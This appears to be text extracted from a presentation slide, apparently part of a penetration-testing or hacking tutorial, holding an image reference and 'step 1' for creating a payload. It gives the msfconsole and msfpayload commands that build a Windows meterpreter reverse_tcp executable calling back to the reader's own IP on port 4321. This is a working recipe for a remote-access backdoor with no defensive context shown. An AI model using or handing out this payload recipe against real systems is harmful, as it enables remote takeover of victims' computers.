

# STEP 1 TO CREATE THE PAYLOAD
msfconsole

msfpayload windows/meterpreter/reverse_tcp LHOST= Your IP LPORT=4321 x>/root/filename.exe